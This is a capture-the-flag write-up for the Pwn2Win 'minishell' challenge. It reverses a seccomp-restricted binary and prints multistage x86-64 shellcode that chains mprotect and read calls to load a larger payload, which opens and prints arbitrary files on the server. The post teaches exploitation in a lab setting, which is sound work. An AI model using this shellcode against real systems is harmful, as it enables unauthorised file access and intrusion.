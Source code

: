# Pwn2Win — minishell
<!--Authors: littlewho-->

Hello, hackers!

I’ve recently took part in Pwn2Win CTF and they had very interesting challenges, it was a lot of fun to solve them. One of the tasks in the pwning category that I succeeded to solve was minishell . Let’s analyze it a little bit.

We have a 64-bit ELF binary running on a Linux server and no LIBC is provided. You can download the binary [here](https://github.com/JustBeYou/ctfs/blob/master/pwn2win/minishell).

![Running the binary](https://cdn-images-1.medium.com/max/2000/1*v524O7lZTLNuc7ATo5fNyg.png)*Running the binary*

We see that there is not much interaction between us and the program, it only reads a string and then it crashes. The message “Executing…” leads us to the idea that maybe it is executing the input that it receives, but let’s not make any false assumptions before we see the actual content. I will step into every significant piece of code, for a better understanding.

![Binary exploitation prevention features](https://cdn-images-1.medium.com/max/2000/1*pJWVwxB6wkTGi_63NCGXRg.png)*Binary exploitation prevention features*

![Main entry of the program](https://cdn-images-1.medium.com/max/2000/1*Kv9t-SJ_HlL-wTkqPov21A.png)*Main entry of the program*

Here we see the entry of the program, basic stack setup, no interesting things. Just after that, something caught my attention, a call to mmap . This is a standard C function that requests memory pages from the operating system.

![mmap(NULL, 0x1000, 0x7, 0x22, 0, 0)](https://cdn-images-1.medium.com/max/2000/1*d3wgF28izTqQrqM768nUsg.png)*mmap(NULL, 0x1000, 0x7, 0x22, 0, 0)*

According to the manual pages, protection 0x7 means READ/WRITE/EXECUTE permissions. The result of the mmap call is stored into a stack variable.

![read(0, buf, 0x1000)](https://cdn-images-1.medium.com/max/2000/1*Qujn3xfh8qSAnELOlqJULg.png)*read(0, buf, 0x1000)*

This call to the read function seems to allow us up to 4096 (0x1000 in hex) bytes of memory to be stored, but the cmp [rbp+var_C], 0xCh instruction compares the number of read bytes with 12, if it is lower or equal we perform a jump to another piece of code. If the condition is not satisfied, the program will simply exit.

![Call to sub_ABA and mprotect(buf, 0x1000, 0x5)](https://cdn-images-1.medium.com/max/2000/1*TjPTiVnokYbCY8RSRWka1Q.png)*Call to sub_ABA and mprotect(buf, 0x1000, 0x5)*

Here we see three important elements:

* a call to some procedure sub_ABA

* a mprotect call that will change the protection of the specified memory area. According to the manual pages 0x5 means READ/EXECUTE

* jmp into the user controlled buffer

Let’s inspect the sub_ABA in order to have a full understanding of the program.

![Adding seccomp rules in order to restrict syscalls](https://cdn-images-1.medium.com/max/2000/1*wfCnD7jiRWlrWtn95rOxYA.png)*Adding seccomp rules in order to restrict syscalls*

The whole function is filled with calls to seccomp_rule_add . seccomp module, the short form for secure computing mode, is a security enhancement that is able to restrict system calls, file access and other permissions. According to the manual 0x7FFF0000 flag means “allow the specified system call number”. So, our binary and also our future shell is only able to use few system calls. Inspecting the binary we know that they are the following: open , read , write , close , mprotect and exit .

Summarizing, we are able to send 12 bytes of shellcode that will be executed and we can’t call system, so we’ll need to read the flag using the open and read calls. For sure, we can’t do this in only 12 bytes, so we need to implement a multistage exploit. The first part will allow us to send a bigger shell in the second step. The objectives for the first stage are:

* call mprotect to make the buffer writable again

* call read again with a larger size

I’ve set a break point just before the jump to our shellcode in order to observe the resources offered by the register values.

![Registers before the jump](https://cdn-images-1.medium.com/max/2000/1*QrF6iKXM65SvN5qk3HMJUQ.png)*Registers before the jump*

We see that the registers almost have the right values for the mprotect call (rdi = buffer address, rsi = buffer size, rdx = protections). We need to change the rax value to 10, because this is the mprotect system call number. Then we need to set the protection to RWX, so the last 3 bits of mprotect prot number must be set.

    mov al,10  # 2 bytes
    mov dl,0x7 # 2 bytes
    syscall    # 2 bytes

We have 6 bytes left to use and we need to swap few registers.

    rdi = 0x0
    rsi = rdi (buffer address)
    rdx = ??? (size)

After a lot of tries, I’ve found one way to set the registers in a convenient manner:

    push rcx
    pop rsi
    push rax
    pop rdi
    syscall

But this won’t allow us to change the rdx value again. So, we will need to use the same value that we set in the mprotect call. So, let’s change 0x7 to the biggest value that will allow us to have RWX permissions and won’t mess anything else. And that’s 0xf.

And this is the first stage shell:

    mov al,10 # set the systemcall number
    mov dl,0xf # set the mprotect protection RWX
    syscall
    push rcx # set the registers for the read call
    pop rsi
    push rax
    pop rdi
    syscall

In the second stage of the exploit, the memory area is now writable and we can read 16 bytes. We need to clear the return register (rax) and put 0 in it (read system call number) and set the rdx to a bigger value. The other registers are already set from the last stage.

    xor ax,ax
    mov edx, 0xff # any value that will allow you to upload a big enough shell
    syscall

Because we already passed few bytes of the buffer with the execution, we will need a little NOP sled before the second stage.

In the last stage of the exploit, we will send a classic shellcode, we will read the filename from the user, we will open the file, read it and print the flag to the screen. Again, we will need a NOP sled for our shellcode.

    # read the filename to open
     xor rax,rax
     xor rdi,rdi
     mov rsi,rsp
     mov rdx,0xff
     syscall
     
     # open the file (fd is in rax)
     mov rax,2
     mov rdi,rsp
     xor rsi,rsi
     xor rdx,rdx
     syscall
     
     # read the file (read size is in rax)
     mov rdi,rax
     xor rax,rax
     mov rsi,rsp
     mov rdx,0xff
     syscall
     
     # write the flag and '\n'
     mov rdx,rax
     mov rax,1
     mov rdi,1
     mov rsi,rsp
     syscall

    push 0xa
     mov rdx,1
     mov rax,1
     mov rdi,1
     mov rsi,rsp
     syscall

This piece of code will allow us to open any file on the server. It was a little bit of trouble to find the path to the flag, but finally I found that it is in “/home/minishell/flag.txt”

![](https://cdn-images-1.medium.com/max/2000/1*io33hJ-MRy9RnOcT5EB76Q.png)

You can find the full script [here](https://github.com/JustBeYou/ctfs/blob/master/pwn2win/ms.py) and also other CTF and wargames solutions.

Thanks for reading!
